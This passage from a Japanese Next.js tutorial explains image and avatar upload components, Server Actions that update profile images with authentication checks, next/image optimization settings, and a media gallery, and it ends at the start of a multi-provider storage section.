        const formData = new FormData()
        formData.append('file', fileToUpload)          // 画像ファイル本体
        // 注意: folderパラメータはサーバー側で無視されます
        // サーバーはファイルタイプから自動的にフォルダを決定します
        // （画像 → 'post-images'、動画 → 'post-videos'）

        // POST /api/upload にリクエスト送信
        const response = await fetch('/api/upload', {
          method: 'POST',
          body: formData,
          // 注意: Content-Typeヘッダーは設定しない！
          // FormDataを使う場合、ブラウザが自動的に
          // multipart/form-data; boundary=... を設定する
        })

        // レスポンスがエラーの場合
        if (!response.ok) {
          const error = await response.json()
          throw new Error(error.error || 'アップロードに失敗しました')
        }

        // 成功レスポンスからURLを取得し、親コンポーネントに通知
        const result = await response.json()
        onUpload(result.url)
      }

      // 全ファイルのプレビューを既存のものに追加
      setPreviews((prev) => [...prev, ...newPreviews])
      setUploadProgress(0)  // 進捗をリセット
    } catch (error) {
      console.error('アップロードエラー:', error)
      // エラーを親コンポーネントに通知
      onError?.(error instanceof Error ? error.message : 'アップロードに失敗しました')
    } finally {
      // 成功・失敗に関わらず、必ずローディング状態を解除
      setUploading(false)
      // file inputの値をリセット（同じファイルを再選択できるようにする）
      if (fileInputRef.current) {
        fileInputRef.current.value = ''
      }
    }
  }

  // removePreview: 指定インデックスのプレビューを削除する
  // filter で該当インデックス以外の要素だけを残す
  const removePreview = (index: number) => {
    setPreviews((prev) => prev.filter((_, i) => i !== index))
  }

  // triggerFileInput: 隠し<input>のファイル選択ダイアログを開く
  // カスタムボタンのクリックで呼び出される
  const triggerFileInput = () => {
    fileInputRef.current?.click()
  }

  return (
    <div className={`space-y-4 ${className}`}>
      {/* プレビュー表示 */}
      {previews.length > 0 && (
        <div className="grid grid-cols-2 gap-4">
          {previews.map((preview, index) => (
            <div
              key={index}
              className="relative aspect-square bg-gray-100 rounded-lg overflow-hidden"
              style={aspectRatio ? { aspectRatio } : undefined}
            >
              <Image
                src={preview}
                alt={`プレビュー ${index + 1}`}
                fill
                className="object-cover"
              />
              <button
                type="button"
                onClick={() => removePreview(index)}
                className="absolute top-2 right-2 bg-black/50 text-white rounded-full p-1 hover:bg-black/70 transition-colors"
              >
                <X className="h-4 w-4" />
              </button>
            </div>
          ))}
        </div>
      )}

      {/* アップロードボタン */}
      {previews.length < maxFiles && (
        <div>
          <input
            ref={fileInputRef}
            type="file"
            accept="image/*"
            multiple={maxFiles > 1}
            onChange={handleFileChange}
            className="hidden"
          />

          <Button
            type="button"
            onClick={triggerFileInput}
            disabled={uploading}
            variant="outline"
            className="w-full"
          >
            {uploading ? (
              <>
                <Loader2 className="h-4 w-4 mr-2 animate-spin" />
                アップロード中... {uploadProgress}%
              </>
            ) : (
              <>
                <Upload className="h-4 w-4 mr-2" />
                画像を選択
              </>
            )}
          </Button>
        </div>
      )}

      {/* ヘルプテキスト */}
      {/* ヘルプテキスト: 許可するファイル形式とサイズの案内 */}
      <p className="text-sm text-gray-500">
        {maxFiles > 1
          ? `最大${maxFiles}枚まで選択できます。`
          : '画像を1枚選択してください。'}
        JPG, PNG, WebP, GIF（最大10MB）
      </p>
    </div>
  )
}
```

### このコンポーネントの使用例

> **注意**: 現在のアップロードAPIでは、`folder` パラメータはサーバー側で無視され、ファイルタイプに基づいて自動的に保存先フォルダが決定されます（画像は `post-images`、動画は `post-videos`）。アバターやヘッダー画像は専用のServer Actionで処理します。

```typescript
// 使用例1: 投稿画面で最大4枚の画像をアップロード
<ImageUpload
  onUpload={(url) => setImageUrls((prev) => [...prev, url])}
  onError={(msg) => setError(msg)}
  maxFiles={4}
/>

// 使用例2: プロフィール画像（1枚のみ、正方形）
<ImageUpload
  onUpload={(url) => setAvatarUrl(url)}
  maxFiles={1}
  aspectRatio={1}
/>

// 使用例3: レビュー画像（3枚まで、圧縮あり）
<ImageUpload
  onUpload={(url) => handleReviewImage(url)}
  onError={(msg) => toast.error(msg)}
  maxFiles={3}
  compress={true}
/>
```

### よくあるトラブルと解決法

| トラブル | 原因 | 解決法 |
|---------|------|--------|
| 同じ画像を再選択できない | file inputの値がリセットされていない | `fileInputRef.current.value = ''` で値をクリア（実装済み） |
| プレビューが表示されない | DataURLの生成に失敗 | ブラウザのコンソールでエラーを確認。ファイルが壊れていないか確認 |
| アップロードが遅い | 圧縮なしで大きなファイルを送信 | `compress={true}` を設定する |
| 「許可されていないファイル形式」エラー | HEIC形式（iPhoneの写真） | HEICはサポート外。設定でJPEG出力に変更するか、変換処理を追加 |
| プレビューの画質が低い | DataURLはBase64エンコードのため | プレビューは一時表示用。実際のアップロード画像は高品質 |

<details>
<summary><b>理解度チェック</b></summary>

**Q1**: `fileInputRef`を使って`<input type="file">`を隠す理由は？

**A1**: ブラウザのデフォルトのファイル入力UIは、ブラウザごとに見た目が異なり、CSSでのカスタマイズも困難です。`<input>`を`className="hidden"`で非表示にし、カスタムデザインのButtonコンポーネントから`fileInputRef.current?.click()`で間接的にファイル選択ダイアログを開くことで、一貫したデザインを実現しています。

**Q2**: `FormData`を使ってアップロードする際に`Content-Type`ヘッダーを手動設定してはいけない理由は？

**A2**: `FormData`を使う場合、ブラウザが自動的に`multipart/form-data; boundary=xxxxx`というContent-Typeヘッダーを設定します。`boundary`はファイルデータの区切り文字で、ブラウザが自動生成します。手動でContent-Typeを設定すると、このboundaryが正しく設定されず、サーバー側でリクエストボディを正しく解析できなくなります。

**Q3**: `finally`ブロックでローディング状態を解除する理由は？

**A3**: `try`ブロックでエラーが発生した場合、`catch`ブロックに制御が移りますが、その後もローディング状態を解除する必要があります。`finally`ブロックは成功時も失敗時も必ず実行されるため、確実にローディング状態を解除できます。
</details>

## 11.7 アバター・ヘッダー画像の更新

> **このセクションで学ぶこと**
> - プロフィール画像特有のUXデザイン（丸いアバター、カメラアイコン）
> - アップロード → データベース更新 → キャッシュ無効化の一連のフロー
> - Server Actionsを使ったプロフィール更新
> - `revalidatePath`によるページ再検証

### アバターアップロードの処理フロー

プロフィール画像を更新する機能を実装します。通常のImageUploadコンポーネントとは異なり、アバター画像は「アップロード → DB更新 → ページ再検証」の3ステップが必要です。

```

```

```typescript
// components/user/AvatarUpload.tsx
'use client'  // useState, useRouterなどのHooksを使用するためClient Component

import { useState } from 'react'
import Image from 'next/image'
import { Camera, Loader2 } from 'lucide-react'    // アイコンコンポーネント
import { updateAvatar } from '@/lib/actions/user'   // Server Action（後述）
import { useRouter } from 'next/navigation'         // ページ再読み込み用

// AvatarUploadProps: アバターアップロードコンポーネントのProps
interface AvatarUploadProps {
  currentAvatarUrl?: string | null  // 現在のアバターURL（未設定の場合はnull）
  userId: string                     // ユーザーID（将来の拡張用）
}

export function AvatarUpload({ currentAvatarUrl, userId }: AvatarUploadProps) {
  const router = useRouter()  // Next.jsのルーターインスタンス
  const [uploading, setUploading] = useState(false)          // アップロード中フラグ
  const [preview, setPreview] = useState<string | null>(null) // プレビューDataURL
  const [error, setError] = useState<string | null>(null)     // エラーメッセージ

  // handleFileChange: ファイルが選択された時のハンドラ
  const handleFileChange = async (e: React.ChangeEvent<HTMLInputElement>) => {
    // オプショナルチェーン(?.)で安全にファイルを取得
    const file = e.target.files?.[0]
    if (!file) return

    // アバター画像はサイズ制限を5MBに設定（一般の投稿画像より小さめ）
    if (file.size > 5 * 1024 * 1024) {
      setError('ファイルサイズは5MB以下にしてください')
      return
    }

    try {
      setUploading(true)
      setError(null)  // 前回のエラーをクリア

      // ========================================
      // プレビュー生成: アップロード完了前に即座に表示
      // ========================================
      // ユーザー体験向上のため、アップロード前にプレビューを表示する
      const reader = new FileReader()
      reader.onloadend = () => {
        setPreview(reader.result as string)
      }
      reader.readAsDataURL(file)

      // ========================================
      // R2にアップロード
      // ========================================
      const formData = new FormData()
      formData.append('file', file)
      // 注意: フォルダはサーバー側でファイルタイプに基づいて自動決定されます
      // アバター画像は専用のServer Action（updateAvatar）で処理するのが推奨

      const response = await fetch('/api/upload', {
        method: 'POST',
        body: formData,
      })

      if (!response.ok) {
        const error = await response.json()
        throw new Error(error.error || 'アップロードに失敗しました')
      }

      const result = await response.json()

      // ========================================
      // データベースのプロフィール情報を更新（Server Action）
      // ========================================
      const updateResult = await updateAvatar(result.url)
      if (updateResult.error) {
        throw new Error(updateResult.error)
      }

      // ページを再読み込みして最新のアバターを反映
      // router.refresh()はフルページリロードではなく、
      // Server Componentのデータだけを再取得する（高速）
      router.refresh()
    } catch (error) {
      console.error('アバターアップロードエラー:', error)
      setError(error instanceof Error ? error.message : 'アップロードに失敗しました')
    } finally {
      setUploading(false)
    }
  }

  // 表示するURL: プレビューがあればそれを、なければ現在のアバターURLを使用
  // プレビューを優先することで、アップロード直後から新しい画像が表示される
  const displayUrl = preview || currentAvatarUrl

  return (
    <div className="relative inline-block">
      <div className="relative w-32 h-32 rounded-full overflow-hidden bg-gray-200">
        {displayUrl ? (
          <Image
            src={displayUrl}
            alt="アバター"
            fill
            className="object-cover"
          />
        ) : (
          <div className="flex items-center justify-center h-full text-gray-400 text-4xl font-bold">
            ?
          </div>
        )}

        {/* アップロード中のオーバーレイ */}
        {uploading && (
          <div className="absolute inset-0 bg-black/50 flex items-center justify-center">
            <Loader2 className="h-8 w-8 text-white animate-spin" />
          </div>
        )}
      </div>

      {/* カメラアイコンボタン */}
      <label className="absolute bottom-0 right-0 bg-white border-2 border-gray-200 rounded-full p-2 cursor-pointer hover:bg-gray-100 transition-colors">
        <Camera className="h-5 w-5 text-gray-600" />
        <input
          type="file"
          accept="image/*"
          onChange={handleFileChange}
          disabled={uploading}
          className="hidden"
        />
      </label>

      {/* エラーメッセージ */}
      {error && (
        <p className="mt-2 text-sm text-red-500">{error}</p>
      )}
    </div>
  )
}

### Server Actions: データベースのプロフィール更新

アバターとヘッダー画像のURLをデータベースに保存するServer Actionsを実装します。

```typescript
// lib/actions/user.ts
'use server'  // Server Actions のディレクティブ

import { auth } from '@/lib/auth'            // 認証情報の取得
import { prisma } from '@/lib/db'            // Prismaクライアント
import { revalidatePath } from 'next/cache'  // キャッシュ再検証

// updateAvatar: アバター画像のURLをデータベースに保存する
// avatarUrl: R2にアップロードされた画像の公開URL
// 戻り値: { success: true } または { error: "エラーメッセージ" }
export async function updateAvatar(avatarUrl: string) {
  try {
    // Server Action内でも必ず認証チェックを行う
    // クライアントからの直接呼び出しを防ぐためのセキュリティ対策
    const session = await auth()
    if (!session?.user?.id) {
      return { error: '認証が必要です' }
    }

    // usersテーブルのavatarUrlカラムを更新
    await prisma.user.update({
      where: { id: session.user.id },    // 自分のユーザーレコードを指定
      data: { avatarUrl },                // 新しいアバターURLに更新
    })

    // キャッシュの再検証: 該当ページのキャッシュを無効化する
    // これにより、次にアクセスした時にサーバーが最新データを取得し直す
    revalidatePath(`/users/${session.user.id}`)  // プロフィールページ
    revalidatePath('/settings')                   // 設定ページ

    return { success: true }
  } catch (error) {
    console.error('アバター更新エラー:', error)
    return { error: 'アバターの更新に失敗しました' }
  }
}

// updateHeader: ヘッダー画像のURLをデータベースに保存する
// headerUrl: R2にアップロードされたヘッダー画像の公開URL
export async function updateHeader(headerUrl: string) {
  try {
    const session = await auth()
    if (!session?.user?.id) {
      return { error: '認証が必要です' }
    }

    // usersテーブルのheaderUrlカラムを更新
    await prisma.user.update({
      where: { id: session.user.id },
      data: { headerUrl },
    })

    // プロフィールページと設定ページのキャッシュを再検証
    revalidatePath(`/users/${session.user.id}`)
    revalidatePath('/settings')

    return { success: true }
  } catch (error) {
    console.error('ヘッダー更新エラー:', error)
    return { error: 'ヘッダーの更新に失敗しました' }
  }
}
```

> **`revalidatePath`の役割**
>
> Next.jsのApp Routerでは、Server Componentのデータはキャッシュされます。プロフィール画像を更新しても、キャッシュが残っていると古い画像が表示され続けます。`revalidatePath`を呼ぶことで、指定したパスのキャッシュを無効化し、次のアクセス時に最新データが取得されるようにします。
>
> ```
> アバター更新前:
> /users/123 のキャッシュ → avatarUrl: "old-photo.jpg" ← 古い
>
> revalidatePath('/users/123') 実行:
> /users/123 のキャッシュ → [無効化]
>
> 次のアクセス時:
> /users/123 → DBから最新データ取得 → avatarUrl: "new-photo.webp" ← 新しい
> ```

<details>
<summary><b>理解度チェック</b></summary>

**Q1**: なぜServer Action内でも認証チェックが必要ですか？クライアント側で既にログイン確認しているのでは？

**A1**: Server Actionsは内部的にはHTTPエンドポイントとして公開されます。悪意のあるユーザーがブラウザの開発者ツールなどを使って直接Server Actionを呼び出す可能性があるため、サーバー側でも必ず認証チェックが必要です。「クライアントを信頼しない」というのはWebセキュリティの鉄則です。

**Q2**: `router.refresh()`と通常のページリロード（`window.location.reload()`）の違いは？

**A2**: `router.refresh()`はNext.js固有の機能で、Server Componentのデータだけを再取得します。HTMLの再描画は差分のみなので高速です。一方`window.location.reload()`はページ全体を再読み込みするため、JavaScriptの再実行やCSSの再読み込みなど、すべてやり直しになって遅くなります。

**Q3**: `revalidatePath`で複数のパスを指定している理由は？

**A3**: アバター画像はプロフィールページ（`/users/{id}`）と設定ページ（`/settings`）の両方に表示される可能性があるためです。両方のキャッシュを無効化しないと、片方のページで古い画像が表示され続けてしまいます。
</details>

## 11.8 next/imageによる画像最適化

> **このセクションで学ぶこと**
> - next/imageが行う自動最適化の仕組み（リサイズ、フォーマット変換、遅延読み込み）
> - `remotePatterns`による外部画像の許可設定
> - `sizes`属性によるレスポンシブ画像の最適化
> - エラーハンドリング付きの堅牢な画像コンポーネント
> - 画像ギャラリーのグリッドレイアウト

### next/imageの自動最適化とは

Next.jsの`Image`コンポーネントは、画像を自動的に最適化してくれる強力な機能です。

```

```

**日常の例え**: レストランのウェイター（next/image）が、お客様（ブラウザ）に合わせて料理（画像）を調理してくれるイメージです。スマホのお客様にはミニサイズの料理を、PCのお客様にはレギュラーサイズを提供します。しかも最初の注文は調理に時間がかかりますが、同じ注文が来たらキッチンの保温庫（キャッシュ）から即座に提供できます。

### next.config.tsの設定

R2に保存した外部画像を`next/image`で使うには、許可設定が必要です。

```typescript
// next.config.ts

import type { NextConfig } from 'next'

const nextConfig: NextConfig = {
  images: {
    // remotePatterns: 外部画像の読み込みを許可するドメインを指定
    // セキュリティのため、許可していないドメインの画像は表示されない
    remotePatterns: [
      {
        protocol: 'https',
        hostname: '*.r2.dev',            // R2のパブリックドメイン（ワイルドカード）
        pathname: '/**',                  // 全てのパスを許可
      },
      {
        protocol: 'https',
        hostname: 'uploads.bon-log.com', // カスタムドメイン
        pathname: '/**',
      },
    ],
    // formats: 使用する画像フォーマットの優先順位
    // ブラウザがAVIFに対応していればAVIF、そうでなければWebPを使用
    // AVIF: WebPより更に20-30%小さいが、エンコードが遅い
    formats: ['image/webp', 'image/avif'],

    // deviceSizes: レスポンシブ画像の生成サイズ（ピクセル）
    // sizes属性で "100vw" を指定した場合に使用される
    deviceSizes: [640, 750, 828, 1080, 1200, 1920, 2048, 3840],

    // imageSizes: 固定幅の画像生成サイズ（ピクセル）
    // sizes属性で "33vw" のような小さい値を指定した場合に使用される
    imageSizes: [16, 32, 48, 64, 96, 128, 256, 384],
  },
}

export default nextConfig
```

> **なぜ`remotePatterns`が必要？**
> 許可なしに任意のドメインの画像を最適化できると、悪意のあるユーザーが大量の外部画像URLを指定してサーバーに負荷をかける攻撃（SSRF: Server-Side Request Forgery）が可能になります。信頼できるドメインだけを許可することで、この攻撃を防ぎます。

### 画像コンポーネントの実装

エラーハンドリングやプレースホルダー表示を含む、堅牢な画像コンポーネントを実装します。

```typescript
// components/common/OptimizedImage.tsx

import Image from 'next/image'
import { useState } from 'react'
import { ImageOff } from 'lucide-react'  // 画像エラー時に表示するアイコン

// OptimizedImageProps: 画像コンポーネントのprops型
interface OptimizedImageProps {
  src: string          // 画像URL
  alt: string          // 代替テキスト（アクセシビリティに必須）
  width?: number       // 画像の幅（px）。fillモードでは不要
  height?: number      // 画像の高さ（px）。fillモードでは不要
  fill?: boolean       // true: 親要素のサイズに合わせる
  priority?: boolean   // true: 遅延読み込みを無効化（LCP画像に使用）
  className?: string   // CSSクラス
  sizes?: string       // レスポンシブサイズ指定
  objectFit?: 'cover' | 'contain' | 'fill' | 'none' | 'scale-down'
}

export function OptimizedImage({
  src,
  alt,
  width,
  height,
  fill = false,
  priority = false,
  className = '',
  sizes,
  objectFit = 'cover',  // デフォルト: アスペクト比を維持して領域を埋める
}: OptimizedImageProps) {
  // error: 画像の読み込みに失敗したかどうか
  const [error, setError] = useState(false)

  // 画像読み込みエラー時のフォールバック表示
  // 壊れた画像アイコンの代わりに、美しいプレースホルダーを表示
  if (error) {
    return (
      <div
        className={`flex items-center justify-center bg-gray-200 ${className}`}
        style={fill ? {} : { width, height }}
      >
        <ImageOff className="h-12 w-12 text-gray-400" />
      </div>
    )
  }

  // fill モードか固定サイズかでpropsを切り替える
  // fill: 親要素に合わせるため、width/heightは不要
  // 固定サイズ: width/heightが必須（レイアウトシフト防止のため）
  const imageProps = fill
    ? { fill: true }
    : { width: width!, height: height! }

  return (
    <Image
      {...imageProps}
      src={src}
      alt={alt}
      priority={priority}       // true: ファーストビューの画像に指定（LCP最適化）
      className={className}
      sizes={sizes}              // レスポンシブ画像のサイズヒント
      style={{ objectFit }}      // 画像の表示方法
      onError={() => setError(true)}  // 読み込み失敗時にフォールバック表示
      quality={85}               // 画質（1-100）。85はファイルサイズと画質のバランスが良い
      placeholder="blur"         // 読み込み中にぼかし画像を表示
      // blurDataURL: 極小（1x1px）の半透明画像のBase64データ
      // 画像読み込み前のプレースホルダーとして表示される
      blurDataURL="data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVR42mN8/5+hHgAHggJ/PchI7wAAAABJRU5ErkJggg=="
    />
  )
}
```

> **`sizes`属性の書き方**
>
> `sizes`属性は、ブラウザに「この画像は画面幅に対してどれくらいの大きさで表示されるか」を伝えます。これにより、ブラウザは最適なサイズの画像をダウンロードできます。
>
> ```
> sizes の指定例:
>
> "(max-width: 768px) 100vw, 600px"
>  │                   │       │
>  │                   │       └─ それ以外（PC）: 600px幅で表示
>  │                   └─ スマホ: ビューポート幅の100%で表示
>  └─ 条件: 画面幅が768px以下の場合
>
> "(max-width: 768px) 100vw, (max-width: 1200px) 50vw, 33vw"
>  │                         │                        │
>  │                         │                        └─ PC: 画面幅の33%
>  │                         └─ タブレット: 画面幅の50%
>  └─ スマホ: 画面幅の100%
> ```

### 画像ギャラリーコンポーネント

投稿に添付された画像・動画をグリッド表示し、クリックでフルスクリーン表示できるコンポーネントです。



| 枚数 | レイアウト | 説明 |
|------|-----------|------|
| 1枚 | 16:9 横長 | 画像を16:9アスペクト比で表示 |
| 2枚 | 1:1 x 2列 | 正方形画像を横に2枚並べて表示 |
| 3枚 | 大1枚 + 小2枚 | 上段に2列幅の大画像、下段に小画像2枚 |
| 4枚 | 2x2グリッド | 4枚を均等に2行2列で表示 |

```typescript
// components/post/PostMediaGallery.tsx

import { OptimizedImage } from '@/components/common/OptimizedImage'
import { useState } from 'react'
import { Dialog, DialogContent } from '@/components/ui/dialog'  // shadcn/uiのダイアログ
import { ChevronLeft, ChevronRight, X } from 'lucide-react'     // ナビゲーションアイコン

// Media: 投稿に添付された1つのメディアの情報
interface Media {
  id: string                // メディアの一意ID
  url: string               // メディアのURL
  type: 'image' | 'video'  // メディアの種類
  altText?: string | null   // 代替テキスト（アクセシビリティ用）
}

// PostMediaGalleryProps: ギャラリーコンポーネントのprops
interface PostMediaGalleryProps {
  media: Media[]  // 表示するメディアの配列（最大4枚）
}

export function PostMediaGallery({ media }: PostMediaGalleryProps) {
  // selectedIndex: フルスクリーン表示中のメディアのインデックス
  // null の場合はフルスクリーン非表示
  const [selectedIndex, setSelectedIndex] = useState<number | null>(null)

  // handlePrevious: フルスクリーン表示で前の画像に移動
  const handlePrevious = () => {
    if (selectedIndex !== null && selectedIndex > 0) {
      setSelectedIndex(selectedIndex - 1)
    }
  }

  // handleNext: フルスクリーン表示で次の画像に移動
  const handleNext = () => {
    if (selectedIndex !== null && selectedIndex < media.length - 1) {
      setSelectedIndex(selectedIndex + 1)
    }
  }

  // gridClass: メディア数に応じたCSSグリッドクラスを決定
  // 即時実行関数（IIFE）で計算
  const gridClass = (() => {
    switch (media.length) {
      case 1:
        return 'grid-cols-1'  // 1枚: 1列（横幅いっぱい）
      case 2:
        return 'grid-cols-2'  // 2枚: 2列（横並び）
      case 3:
        return 'grid-cols-2'  // 3枚: 2列（1枚目が2列分、残り2枚が1列ずつ）
      case 4:
        return 'grid-cols-2'  // 4枚: 2列 x 2行
      default:
        return 'grid-cols-2'
    }
  })()

  return (
    <>
      <div className={`mt-3 grid gap-2 rounded-xl overflow-hidden ${gridClass}`}>
        {media.map((item, index) => (
          <div
            key={item.id}
            className={`relative cursor-pointer ${
              media.length === 3 && index === 0 ? 'col-span-2' : ''
            } ${media.length === 1 ? 'aspect-video' : 'aspect-square'}`}
            onClick={() => setSelectedIndex(index)}
          >
            {item.type === 'image' ? (
              <OptimizedImage
                src={item.url}
                alt={item.altText || `画像 ${index + 1}`}
                fill
                sizes="(max-width: 768px) 100vw, 600px"
                objectFit="cover"
              />
            ) : (
              <video
                src={item.url}
                controls
                className="w-full h-full object-cover"
                preload="metadata"
              />
            )}
          </div>
        ))}
      </div>

      {/* フルスクリーン表示ダイアログ */}
      <Dialog open={selectedIndex !== null} onOpenChange={() => setSelectedIndex(null)}>
        <DialogContent className="max-w-7xl w-full h-full p-0">
          {selectedIndex !== null && (
            <div className="relative w-full h-full bg-black">
              {/* 閉じるボタン */}
              <button
                onClick={() => setSelectedIndex(null)}
                className="absolute top-4 right-4 z-10 bg-black/50 text-white rounded-full p-2 hover:bg-black/70"
              >
                <X className="h-6 w-6" />
              </button>

              {/* 画像/動画 */}
              <div className="flex items-center justify-center w-full h-full">
                {media[selectedIndex].type === 'image' ? (
                  <OptimizedImage
                    src={media[selectedIndex].url}
                    alt={media[selectedIndex].altText || `画像 ${selectedIndex + 1}`}
                    fill
                    objectFit="contain"
                    priority
                  />
                ) : (
                  <video
                    src={media[selectedIndex].url}
                    controls
                    className="max-w-full max-h-full"
                    autoPlay
                  />
                )}
              </div>

              {/* ナビゲーションボタン */}
              {media.length > 1 && (
                <>
                  {selectedIndex > 0 && (
                    <button
                      onClick={handlePrevious}
                      className="absolute left-4 top-1/2 -translate-y-1/2 bg-black/50 text-white rounded-full p-2 hover:bg-black/70"
                    >
                      <ChevronLeft className="h-6 w-6" />
                    </button>
                  )}
                  {selectedIndex < media.length - 1 && (
                    <button
                      onClick={handleNext}
                      className="absolute right-4 top-1/2 -translate-y-1/2 bg-black/50 text-white rounded-full p-2 hover:bg-black/70"
                    >
                      <ChevronRight className="h-6 w-6" />
                    </button>
                  )}
                </>
              )}

              {/* インジケーター */}
              <div className="absolute bottom-4 left-1/2 -translate-x-1/2 flex space-x-2">
                {media.map((_, index) => (
                  <div
                    key={index}
                    className={`w-2 h-2 rounded-full ${
                      index === selectedIndex ? 'bg-white' : 'bg-white/50'
                    }`}
                  />
                ))}
              </div>
            </div>
          )}
        </DialogContent>
      </Dialog>
    </>
  )
}
```

### よくあるトラブルと解決法

| トラブル | 原因 | 解決法 |
|---------|------|--------|
| 外部画像が表示されない | `remotePatterns`に未登録のドメイン | `next.config.ts`で該当ドメインを許可する |
| 画像がぼやけて表示される | `sizes`属性が未指定 or 不正確 | 実際の表示サイズに合った`sizes`を指定する |
| 画像読み込みが遅い | `priority`未指定のLCP画像 | ファーストビューの画像に`priority`を設定 |
| レイアウトシフトが発生 | `width`/`height`が未指定 | fill以外のモードでは必ずwidth/heightを指定 |
| AVIF変換でエラー | サーバーのメモリ不足 | `formats`から`'image/avif'`を除外するか、メモリを増やす |

<details>
<summary><b>理解度チェック</b></summary>

**Q1**: `next/image`の`priority`属性をどのような画像に設定すべきですか？

**A1**: ページの最初に表示される大きな画像（LCP: Largest Contentful Paint に相当する画像）に設定します。例えば、ヒーロー画像やプロフィールページのヘッダー画像などです。`priority`を設定すると遅延読み込みが無効化され、ページ読み込みと同時に画像の取得が開始されます。

**Q2**: `fill`モードと`width/height`指定モードの使い分けは？

**A2**: `fill`モードは、画像の表示サイズが親要素によって動的に変わる場合に使います（例: レスポンシブなカードコンポーネント内の画像）。`width/height`指定モードは、表示サイズが固定の場合に使います（例: アバターアイコン、固定サイズのサムネイル）。`fill`モードを使う場合、親要素に`position: relative`を設定する必要があります。

**Q3**: `blurDataURL`に極小の画像データを指定する理由は？

**A3**: 画像の読み込み中に灰色のぼかしプレースホルダーを表示するためです。1x1ピクセルの極小画像をBase64エンコードして埋め込むことで、追加のHTTPリクエストなしにプレースホルダーを表示できます。本格的なプレースホルダーが必要な場合は、`plaiceholder`ライブラリなどでビルド時に小さなぼかし画像を生成する方法もあります。
</details>

---

## 11.9 マルチプロバイダストレージ

> **このセクションで学ぶこと**
> - ストレージ抽象化レイヤーの設計思想とメリット
> - StorageProviderインターフェースの構造
> - Cloudflare R2、Supabase Storage、ローカルファイルシステムの切替パターン
> - ファクトリパターンとシングルトンパターンの実践的な活用
> - 環境変数による動的なプロバイダー切替

> **BON-LOGでの使用箇所**
> `lib/storage/index.ts` として実装済みで、3つのプロバイダー（`LocalStorageProvider`、`CloudflareR2StorageProvider`、`SupabaseStorageProvider`）が1ファイルに含まれています。`STORAGE_PROVIDER` 環境変数で切替します。本番環境（Vercel）では `'r2'`、開発環境では `'local'` を使用します。

> **実装しない場合の影響**
> 単一プロバイダーへの直接依存では、開発環境でもクラウドサービスへの接続が必要になります。CI/CDパイプラインでのテストが困難になり、将来のプロバイダー変更時に全アップロードコードの修正が必要です。遅延初期化なしでは、ストレージを使わないページでもSDKのロードコストがかかります。

### 11.9.1 なぜストレージ抽象化が必要か

実際の開発現場では、環境ごとに異なるストレージサービスを使い分ける必要があります。

```
開発環境（ローカル）     → ローカルファイルシステム（高速・無料・オフライン対応）
ステージング環境         → Supabase Storage または R2（本番に近い構成でテスト）
本番環境（Vercel）       → Cloudflare R2（CDN統合・エグレス無料）
テスト環境（CI/CD）      → モック or ローカル（自動テスト用）
```

もしストレージの処理を各所にハードコードしていたら、環境ごとにコードを書き換える必要があります。それを防ぐのが**ストレージ抽象化レイヤー**です。

### マルチプロバイダストレージアーキテクチャ

